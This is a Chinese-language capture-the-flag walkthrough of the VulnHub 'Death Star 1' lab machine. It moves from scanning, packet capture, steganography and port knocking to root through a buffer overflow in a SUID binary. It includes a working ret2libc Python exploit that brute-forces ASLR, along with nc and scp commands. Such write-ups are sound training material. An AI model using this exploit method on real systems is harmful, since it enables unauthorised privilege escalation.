网址：[https://www.vulnhub.com/entry/death-star-1,477/](https://www.vulnhub.com/entry/death-star-1,477/)

# 靶场搭建
#### 下载镜像


解压压缩包。



#### 配置
在 Vmware 左上角“文件”-->“打开”-->选择“DeathStart_1.ovf”即可

启动虚拟机




# 攻入


## nmap 探测开放端口
打开 kali，nmap 扫描网段，找到靶机 ip：192.168.17.254



可以联通靶机




**全端口扫描**



没有结果....


**添加-f 参数进行数据包分片**



没有结果....


**源端口伪装**

将源端口伪装成 dns



没有结果....


**按顺序扫描（nmap 默认是随机扫描）**



没有结果....


**修改 TCP 标志**

猜测防火墙仅过滤特定的 syn 扫描，若使用 urg、psh、fin 这三个标志进行发送可能不过滤



没有结果....


**测试 UDP**



仅开放/过滤 dhcp，没什么用


至此 nmap 探测没有什么效果，尝试使用抓取网络流量


## 网络流量抓取
查看网卡




使用 tshark（tshark 就是 wires hark 的命令行版本）



_**发现：靶机每 60s 向外发送一次数据包**_

__

查看截获的数据包：




观察到数据包中的 ASCII 码，尝试提取






```plain

xxd常用于调试、文件内容分析和数据转换，用来把文件或标准输入的文件转化成16进制或者二进制（－d参数）
-r：将十六进制数据还原为二进制（反向操作）。
-p：以连续的纯十六进制形式（不带偏移地址和 ASCII）输出。
-c cols：每行输出多少个字节，默认为 16。
-g bytes：每组显示多少字节，默认为 2。
-s offset：从文件的某个偏移位置开始读取（支持负数表示从文件末尾开始）。
-l length：只显示指定长度的字节。
-u：将输出的十六进制字符转为大写。
-i：以 C 语言的数组格式输出。
-b：将输出转换为二进制格式，而不是十六进制。
```


将数据包中的 ASCII 提取，转译，得到以下提示内容：

```plain

Code to access the Death Star Blueprint
within the time it takes to reload is:  DS-1@OBS     


Thanks to the successful Operation Skyhook, the Rebel Alliance
got some plans for the new weapon of the Galactic Empire. We
know that there is a small opening that we can explore through a
thermal exhaust that is directly connected to the Main Reactor of the
Death Star. The superlaser takes 1440 minutes to reload.
It is very important to observe 'this window' in order to recover the blueprint.
This is because, it is only possible to make an attempt every 60 seconds.

翻译：
访问死星蓝图的代码（需在重新装填时间内输入）：DS-1@OBS

得益于"天钩行动"的成功，义军同盟获得了银河帝国新式武器的部分设计图。我们已发现一个可通过热排气口进入的小型通道，该通道直通死星的主反应堆。超级激光炮需要1440分钟重新装填。
必须密切把握"这个窗口期"才能获取蓝图。
因为系统每60秒才允许尝试一次。
```


#### 锁定 1440 端口
提示中提到了 1440 和 60，这俩可能是俩开放的端口，nmap 扫描



nmap 成功扫描到了 1440 开放端口


#### nc 连接


**想到提示**：访问死星蓝图的代码（需在重新装填时间内输入）：DS-1@OBS


echo "DS-1@OBS" | nc -u 192.168.17.143 1440 | tee mass





#### 对 mass 分析
看起来像 base64 



打开图像（open x）


## 对 Blueprint 图进行分析
#### 图片隐写
steghide（一款强大的隐写术工具[https://labex.io/zh/tutorials/hide-data-in-steghide-549941](https://labex.io/zh/tutorials/hide-data-in-steghide-549941)）



**解锁码的每个分段必须由3个字符组成，按顺序发送方可开启10110端口。**

## 端口敲门
nmap 查看 10110 端口的状态



过滤态


#### knock


查看 10110 端口的服务信息




## SSH



问 ChatGpt，得到密码：lyra13



有提示：



```plain

来自盖伦·厄索的讯息：

这是你的机会。摧毁银河帝国的计划。我知道维达勋爵绝不会乐见此事。但，这将是我赎罪的机会。希望你们掌握足够的知识来协助摧毁这件新武器。

探索系统并获取"root权限"，读取位于"/root/message.txt"的秘密信息。

不成功便成仁！！
```


# 提权


列出系统中所有设置了 SUID 或 SGID 权限的可执行文件。




#### dartVader 分析
查看/bin/dartVader





提示：dartVader: 你在这里有未来。别当个菜鸟，去真正寻找并学习...



查看包含字符串：




该文件是一个 elf 文件，将文件提取到 kali


scp -P 10110 erso@192.168.17.143:/bin/dartVader .


使用 kali 中 gdb 和 gdb-peda



**开启了 NX 保护**(checksec 讲解：[https://bbs.kanxue.com/thread-250538.htm](https://bbs.kanxue.com/thread-250538.htm))


反汇编 main 函数：



**发现使用了不安全的反汇编函数 strcpy，而且没有验证长度！**


#### 测试是否存在缓冲区溢出漏洞


没有输出

搜索靶机是否有 python 环境




当命令行输入 100 个 A 时候，触发报错：



查看日志



确定 sp 寄存器的地址：bff03670

**根据 41414141 确定存在缓冲区溢出漏洞**

****

**readelf 查看文件详情（scanelf -e dartVader 也可以）**




#### ret2libc



##### ASLR
可以看到每一次地址都是变化的，确认存在 ASLR，但是变化的地址都离的很近




```plain
地址空间布局随机化（ASLR）可以帮助克服某些类型的缓冲区溢出攻击，ASLR可以将基数，库，堆和堆栈放在进程地址空间中的任意随机位置，这使攻击程序很难预测下一条指令的内存地址。
ASLR内置在Linux内核中，并由参数控制 /proc/sys/kernel/randomize_va_space,该 randomize_va_space参数可以采用以下值：
  0 : 禁用ASLR。如果使用norandmapsboot参数引导内核，则将应用此设置。
  1 : 随机化堆栈，虚拟动态共享对象（VDSO）页面和共享内存区域的位置。数据段的基地址位于可执行代码段的结尾之后。
  2 : 随机化堆栈，VDSO页，共享内存区域和数据段的位置。这是默认设置。
```





看看当前用户可否关闭 ASLR




###### 绕过 ASLR
撞 ASLR 地址，为什么撞？因为该 elf 程序是 32 位的，可以在使用更复杂的方法之前尝试一下


**找偏移地址：**




libc 地址：0xb7603000

exit@@GLIBC_2.0 地址：00033260

system@@GLIBC_2.0 地址：00040310


使用 sh 不用 bash，找 sh 的地址：（防止因 bash 的安全机制拿不到 shell）




### 总结利用逻辑


发现 dartVader 是一个由 **root** 拥有的二进制文件，初步简单**交互无法实现提权**；

通过**反编译**分析，观察到程序中存在**缓冲区溢出漏洞（strcpy）**，因为程序开启了 NX 保护，栈区不可执行 shellcode；

通过** ldd **发现了程序链接了 libc 动态链接库，尝试使用** ret2libc 攻击**，通过**调用库中已有的函数 system，绕过程序的 nx 保护；**

但是目标环境启用了 **ASLR**，导致内存地址随机化，但是地址变化范围较小，尝试使用**碰撞**地址，绕过 ASLR；

通过构造 **rop 链**并循环猜测出 system 函数的地址，然后**在 system 函数中执行 shell 命令**，试图提权；

通过推测 libc 的基地址和 system 等函数的偏移关系，然后利用这一关系在循环中复现正确的内存布局，尝试命中目标地址。


#### 地址碰撞


锁定偏移为 76


最终 ret2libc.py 脚本：

```plain
#!/usr/bin/env python3
# -*- coding:utf-8 -*-
from struct import pack
from subprocess import call

offset = b"A" * 76
libc = 0xb7603000
system = pack("<I",libc + 0x00040310)
exit = pack("<I",libc + 0x00033260)
sh = pack("<I",libc + 0x162d4c)
buffer  = offset + system + exit + sh
app = b"/bin/dartVader"

for i in range(1024):
    print("Attempt %d" % i)
    ret = call ([app,buffer])
    if ret == 0:
        print("Exploit Successful!")
        break
else:
    print("Mission failed")
    
```


碰撞地址过程：




成功 get root！




查看/root/message.txt 文件



Congratulations！！


参考：

红队笔记（讲的很好）：[https://www.bilibili.com/video/BV1c8EEznEkv?spm_id_from=333.788.videopod.sections&vd_source=4e9106e7030f1c25677827558da5c605](https://www.bilibili.com/video/BV1c8EEznEkv?spm_id_from=333.788.videopod.sections&vd_source=4e9106e7030f1c25677827558da5c605)


